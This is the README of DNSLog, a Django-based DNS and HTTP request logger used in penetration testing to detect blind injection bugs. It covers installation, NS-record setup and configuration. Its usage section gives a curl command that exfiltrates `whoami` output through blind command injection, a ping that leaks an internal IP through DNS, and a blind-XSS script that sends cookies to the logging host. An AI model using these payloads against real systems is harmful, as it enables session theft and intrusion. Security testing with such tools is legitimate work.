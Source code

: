 ```
 ____  _   _ ____  _
|  _ \| \ | / ___|| |    ___   __ _
| | | |  \| \___ \| |   / _ \ / _` |
| |_| | |\  |___) | |__| (_) | (_| |
|____/|_| \_|____/|_____\___/ \__, |
                              |___/
```
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)   [![License](https://img.shields.io/badge/license-GPLv2-red.svg)](https://raw.githubusercontent.com/BugScanTeam/dnslog/master/GPL-2.0) 

简介
---

DNSLog 是四叶草安全旗下 BugscanTeam 打造的一款监控 DNS 解析记录和 HTTP 访问记录的工具，在检测盲注类漏洞时有着非常重要的作用，是分布式漏洞扫描框架 BugScan 中核心库之一。

DNSLog 基于 Django 框架编写，将 DNSServer 集成进 DNSLog 中，使用者可轻松搭建使用环境。

你可以点击这里访问： [演示站点](http://admin.dnslog.link)

修改记录
---
增加对 referer 的记录

安装
---

1. 获取源代码

 你可以通过用 Git 来克隆代码仓库中的最新源代码

 ```
 $ git clone git@github.com:BugScanTeam/DNSLog.git
 ```

 或者你可以点击 [这里](https://github.com/BugScanTeam/DNSLog/archive/master.zip) 下载最新的源代码 zip 包,并解压

 ```
 $ wget https://github.com/BugScanTeam/DNSLog/archive/master.zip
 $ unzip master.zip
 ```

2. 安装依赖环境

 DNSLog 使用前需要安装 Django 1.8 与 dnslib ，如果已经安装可跳过此步

 ```
 $ cd dnslog
 $ pip install -r requirements.pip
 $ python manage.py migrate
 $ python manage.py makemigrations logview
 ```
3. 域名与公网 IP 准备
	
	搭建并使用 DNSLog，你需要拥有一个域名，如 b.com。还需要有一个公网 IP 地址(如：1.1.1.1)
	
	**注意：b.com 的域名提供商需要支持自定义 NS 记录, a.com 则无要求。**
	
	修改 b.com （或者其子域名） 的 NS 记录为 公网 IP 地址

		> 本步骤中，需要在域名提供商提供的页面进行设置，部分域名提供商只允许修改 NS 记录为已经认证过的 NS 地址。所以需要找一个支持修改 NS 记录为自己 NS 的域名提供商。
	
	**注意: NS 记录修改之后部分地区需要 24-48 小时会生效**

4. 修改配置文件
	
 修改 `dnslog/dnslog/settings.py` 文件中相关配置：
 
 > 配置文件中的域名对应关系与步骤 3 相同
 
 ```
	# 做 dns 记录的域名
	DNS_DOMAIN = 'b.com'
	
	# 记录管理的域名, 这里前缀根据个人喜好来定
	ADMIN_DOMAIN = 'admin.b.com'
	
	# NS域名
	NS1_DOMAIN = 'ns1.a.com'
	NS2_DOMAIN = 'ns2.a.com'
	
	# 服务器外网地址
	SERVER_IP = '1.1.1.1'
 ```

5. 创建管理用户

 创建一个管理员用户

 ```
 python manage.py createsuperuser
 ```
 
 如果忘记管理员密码，可执行如下命令重设管理员密码
 
 ```
 python manage.py changepassword username 
 ```

 在管理后台的 LOGVIEW 中 Users 里可以添加前台普通用户。

5. 启动服务

 ```
 $ cd dnslog/
 $ sudo python manage.py runserver 0.0.0.0:80
 ```
 
 **Django web 默认启动端口为 8000，若要启动在 80 端口则需要 root 权限**
 
 > 如果不想启动在 80 端口，但又想在使用 HTTP 的时候不加端口号，可以自己安装 Nginx，对 b.com 做反向代理
 
 Nginx 反向代理参考脚本：
 
 ```
	server {
	    server_name *.b.com;
	    server_name b.com;
	    location / {
	        proxy_pass http://127.0.0.1:8000/;
	                proxy_set_header Host $host;
	                proxy_set_header X-Real-IP $remote_addr;
	                proxy_set_header X-Forwarded-For $remote_addr;
	                proxy_set_header X-Forwarded-Proto https;
	    }
	}
 ```


使用
---

### 站点管理

 启动服务成功后，访问 `http://b.com/admin/` 进入后台

### 普通用户

 访问 `http://admin.b.com` (ADMIN_DOMAIN 指定的域名)，输入用户名密码登录。
 
 访问后会在下方看到自己的二级域名，例如 test.b.com，当请求 test.b.com 这个二级域名下的任意子域时，都会被记录，例如: demo.test.b.com。

使用技巧
---

### 命令盲注利用

对于一些命令盲注类的漏洞，可以通过 DNSLog 中的 WebLog 部分将其转化为有回显的命令执行：

```
curl "http://testhash.test.dnslog.link/?`whoami`"
```

**在 Web 控制台下看到结果：**

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| testhash.test.dnslog.link/?root |	xxx.xxx.xxx.xxx |	curl/7.43.0	| 2016-05-10 07:36:47


### DNS记录中获取源IP地址

详见 [issue#3](https://github.com/BugScanTeam/DNSLog/issues/3)

```
ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
```

效果如下：

```
➜  ~ ping -c 3 `ifconfig en0|grep "inet "|awk '{print $2}'`.test.dnslog.link
PING 192.168.10.167.test.dnslog.link (106.186.118.146): 56 data bytes
64 bytes from 106.186.118.146: icmp_seq=0 ttl=52 time=259.491 ms
64 bytes from 106.186.118.146: icmp_seq=1 ttl=52 time=307.566 ms
64 bytes from 106.186.118.146: icmp_seq=2 ttl=52 time=352.757 ms

--- 192.168.10.167.test.dnslog.link ping statistics ---
3 packets transmitted, 3 packets received, 0.0% packet loss
round-trip min/avg/max/stddev = 259.491/306.605/352.757/38.082 ms
```

### XSS 盲打

在有 XSS 漏洞的页面加入类似如下代码：

```
var s=document.createElement('img');
s.src="http://xss.test.dnslog.link/?url="+document.location+"&cookie="+document.cookie;
document.head.appendChild(s);
```

以 `httpbin.org` 为例，一旦触发，在 WebLog 中可以看到：

\#	|	path	|	ip	|	ua	| date
---|---|---|---|---
146	| xss.test.dnslog.link/?url=http://httpbin.org/&cookie=_ga=GA1.2.17.142 |	xxx.xxx.xxx.xxx |	Mozilla/5.0 xxx	| 2016-06-18


相关链接
---

* [版权声明](./GPL-2.0)
* [BugScan 社区官网](http://www.bugscan.net)
* [DNSLog 示例站点](http://admin.dnslog.link/)
